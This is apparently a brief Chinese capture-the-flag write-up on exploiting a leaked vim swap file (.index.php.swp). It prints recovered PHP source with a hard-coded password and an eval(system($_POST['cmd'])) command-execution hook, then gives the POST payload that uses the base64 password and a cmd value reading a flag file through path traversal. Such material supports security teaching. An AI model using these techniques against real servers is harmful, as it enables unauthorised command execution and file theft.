 #Vim 泄露

vi/vim 异常关闭会存留有.swp 文件，访问 `.index.php.swp`

用 cat 命令打开后有以下

```php
   ?>            }                eval(system($_POST['cmd']));                echo "<p>Oh You got my password!</p>";            if ($_POST['password'] === base64_encode($password)) {            echo "<p>can can need Vim </p>";            $password = "Give_Me_Your_Flag";            error_reporting(0);
```

于是 POST 传参 `password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=cat ../../../fla*`

